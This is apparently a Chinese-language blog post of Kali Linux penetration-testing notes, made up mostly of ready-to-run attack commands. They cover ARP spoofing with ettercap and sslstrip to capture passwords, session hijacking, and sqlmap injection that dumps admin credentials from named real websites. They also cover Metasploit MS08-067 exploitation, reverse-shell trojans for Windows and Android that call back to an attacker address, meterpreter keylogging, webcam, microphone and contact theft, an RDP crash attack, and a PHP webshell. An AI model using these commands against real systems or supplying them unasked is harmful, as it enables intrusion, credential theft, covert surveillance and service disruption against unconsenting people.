 #  			[kali 渗透的一些笔记](https://www.cnblogs.com/Silvers/p/5843207.html) 		



kali实战笔记 17:55 2016/7/19 by: _Silvers

kali系统安装后的配置及美化
安装vmwareTools
tar zxvf VMwareTools-sfsfsfasfasfsaf #解压安装包
cd 到解压后的安装目录 
./ 绿色的可执行文件 #进行安装
\# 等待安装结束，期间根据提示进行y/n确定
reboot # 重启kali
kali系统更新及替换国内软件源
leafpad /etc/apt/sources.list
注释掉官方的更新源
复制国内的更新源 #可百度国内更新源地址（新手推荐阿里云的源）
更新系统
apt-get update #更新系统
apt-get dist-upgrade #安装更新
kali的美化
apt-get install kde-full #kde桌面的安装
端口扫描
nmap -sS 目标ip
Arp 内网断网
Arpspoof -i 网卡 -t 目标ip 网关
获取网卡/网关
ifconfig
获取内网ip
fping -asg 192.168.1.0/24
Arp 欺骗
echo 写命令，是不会有回显的
ehco 1 >proc/sys/net/ipv4/ip_forward
\# 进行IP流量转发
目标 --》 我的网卡 --》网关
driftnet --> 获取本机网卡的图片iw
driftnet -i eth0 获取本机网卡的图片
ifconfig #查看网络信息
iwconfig #查看网卡信息
kali中查找程序或命令
ex:sqlmap 
find / -name sqlmap
find / -name ettercap

桌面美化工具 雨滴.exe (window)
==============================================================================
HTTP 帐号密码获取
Arpspoof --> 欺骗
Ettercap --> 欺骗 DNS欺骗 流量 嗅探
实战前的信息采集：
目标机器： 目标ip，网关
攻击机器： kali ip
arpspoof -i eth0 -t 目标ip 网关
开启ip转发
echo 1 >/proc/sys/net/ipv4/ip_forward
cat 查看内容
cat /proc/sys/net/ipv4/ip_forward
启动ettercap进行流量嗅探
ettercap -Tq -i eth0
-Tq --> -T: 启动文本模式，q:安静模式；
-i --> i: 网关；
url解码：www.convertstring.com
HTTPS 账户密码获取
进入kali文本模式
在进入输入用户名界面按ctrl+alt+F1
开启SSH链接服务
一、配置SSH参数
修改sshd_config文件，命令为：
vi /etc/ssh/sshd_config
将#PasswordAuthentication no的注释去掉，并且将NO修改为YES //kali中默认是yes
将PermitRootLogin without-password修改为
PermitRootLogin yes
Kali 2.0使用SSH进行远程登录
然后，保存，退出vim。
二、启动SSH服务
命令为：
/etc/init.d/ssh start 
或者
service ssh start
查看SSH服务状态是否正常运行，命令为：
/etc/init.d/ssh status
或者
service ssh status

/etc/init.d/ssh start
==========================
vim /etc/ettercap/etter.conf
修改iptables规则
去掉注释符号
保存推出
sslstrip --》 可以把HTTPS还原为http
arpspoof -i eth0 -t 目标ip 网关
开启ip转发
echo 1 >/proc/sys/net/ipv4/ip_forward
ettercap -Tq -i eth0
sslstrip -a -f -k

缺点：容易出现证书错误！
==============================
会话劫持
需要的工具
Arpspoof ==> Arp欺骗
Wireshark ==> 抓包
ferret ==> 重新生成抓包后的文件
hamster ==> 重放流量
\#trip1：基于arp欺骗
arpspoof
arpspoof -i eth0 -t 目标ip 网关 
echo 1 >/proc/sys/net/ipv4/ip_forward
start Wireshark #开始抓包

ferret -r cockie.pcap #生成hamster.txt

\#trip2：基于ferret
ferret -1 eth0
hamster

\#trip3：基于CookieCadger.jar一键劫持
install CookieCadger
选择网卡
动态截取流量
======================================================
SqlMap 
asp 网站，大多用的Access 文件 数据库 MSSQL数据库
数据库
表
字段(列)
sqlmap -u http://www.baidu.com
-u 检测是否存在注入
成功，返回数据库信息
sqlmap -u www.baidu.com --tables
暴力猜解所有表名（有点慢）
sqlmap -u http://www.baidu.com --columns -T "user"
--columns 猜列名 根据user 
sqlmap -u "http://www.baidu.com" --dump -C "username,password" -T "user"
--dump 下载数据 -C "username,password"列名
php 网站， 大多用Mysql
sqlmap -u "http://www.ggec.com.cn/oneNews.php?id=69" --is-dba
back-end DBMS:MySQL >= 5.0.0
sqlmap -u "http://www.ggec.com.cn/oneNews.php?id=69" --dbs
列出所有数据库
sqlmap -u "http://www.ggec.com.cn/oneNews.php?id=69" --current-db
查找自己的数据库
sqlmap -u "http://www.ggec.com.cn/oneNews.php?id=69" --tables -D "ggec"
猜解(查询)所有表名 根据 ggec
sqlmap -u "http://www.ggec.com.cn/oneNews.php?id=69" --columns -T "ggec_admin" -D "ggec"
查询 所有的列
sqlmap -u "http://www.ggec.com.cn/oneNews.php?id=69" --dump -C "username,password" -T "ggec_admin" -D "ggec"
查询列的字段

www.cmd5.com md5在线加解密站点
====================================
sqlmap cookie注入
sqlmap -u "http://www.wisefund.com.cn/about.asp" --cookie "id=56" --level 2
--cookie "" 这里写id的参数，如果是cookie注入，就要把等级提升为level 2
sqlmap -u "http://www.wisefund.com.cn/about.asp" --tables --cookie "id=56" --level 2
sqlmap -u "http://www.wisefund.com.cn/about.asp" --columns -T "user" --cookie "id=56" --level 2
sqlmap -u "http://www.wisefund.com.cn/about.asp" --dump -C "username,password" -T "user" --cookie "id=56" --level 2
===========================================================================================================================
Metasploit 基础
Exploit 模块 -- 》 漏洞利用
Payloads -- 》 shellCode 
use exploit/windows/smb/ms08_067_netapi
选择漏洞利用模块
show options
查看要填入的参数
set RHOST 192.168.1,100
set PAYLOAD window/meterpreter/reverse_tcp
RHOST --> 目标IP
LHOST --> 本机IP
exploit --》 执行操作 
实施攻击成功则反馈
msfconsole 从终端启动metasploit
background
sessions -i number 
木马 ：控制端 服务端
控制远程 木马程序
a.根据自己的IP生成一个马
我的IP 192.168.1.103 55555
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=55555
X> test.exe
这么下来，就会生成一个test.exe的木马程序
b. use exploit/multi/handler
使用handler这个模块
set PAYLOAD windows/meterpreter/reverse_tcp
使用这个shellcode

LHOST = 192.168.1.103
LRORT = 55555
这里填写 生成木马的IP和端口
c. 先执行msf，再执行马
木马的使用
注入进程：木马随时有可能被结束掉的
ps: 得到我们要注入的PID进程
2036 2004 explorer.exe 桌面进程
migrate 2036 #注入进程
远程桌面的开启：
Run vnc 开启远程桌面
文件管理功能
Downlaod 下载文件
Edit 编辑文件
Cat 查看文件
mkdir 创建文件
Mv 移动文件
Rm 删除文件
Upload 上传文件
Rmdir 删除文件夹
查看PHP文件：　cat hack.php
下载文件： download hack.php
删除文件： rm hack.php
上传文件： upload hack.php
网络及系统操作
Arp 查看ARP缓冲表
Ifconfig 查看IP地址网卡
Getproxy 获取代理
Netstat 查看端口链接
kill 杀死进程
ps	查看进程
reboot 重启机器
reg 修改注册表
shell 获取shell
shutdown 关机
sysinfo 获取电脑信息
用户操作和其他功能讲解
enumdesktops	窗体	
keyscan_dump	键盘记录 -- 下载
keyscan_start	键盘记录 -- 开始
keyscan_stop	键盘记录 -- 停止
Uict1	获取键盘鼠标控
uictl disable keyboard/mouse 禁用键盘/鼠标 
uictl enable keyboard/mouse 启用键盘/鼠标制权
record_mic	音频录制
record_mic -d 10 后台录音10秒
webcam_chat	查看摄像头接口
webcam_list 查看摄像头列表
webcam_stream	摄像头视频获取
GetSystem 获取高权限

Hashdump	下载hash
=========================================================
Metasploit Androd实战笔记
Msfpayload android/meterpreter/reverse_tcp LHOST=192.168.1.103 LPROT=55555 
R > test.apk
Search	搜索 jpg,png,bmp
Download	下载	jpg,png,bmp
webcam_snap	手机截屏 
webcam_stream -i [1:2?] 手机摄像头监控
check_root	检测Root	
dump_calllog	下载电话记录
dump_contacts 下载信息记录
Geolocate 定位
==================================================
Metasploit服务器蓝屏攻击
DDos
服务器开启 3389
确定目标： 192.168.1.103
MS12 020
auxiliary/dos/windows/rdp/ms12_020_maxchannelids
服务器远程桌面的一个可用模块
auxiliary/scanner/rdp/ms12_020_check
扫描主机是否存在漏洞
RHOST R开头，远程主机 
auxiliary/dos/windows/rdp/ms12_020_maxchannelids
目的：比DDos来的更直接一些
Metasploit生成webshell
a.在msf中生成一个PHP脚本
msfpayload php/meterpreter/reverse_tcp LHOST=192.168.1.101 R > web.php
生成一个PHP脚本
　　cat 查看文件内容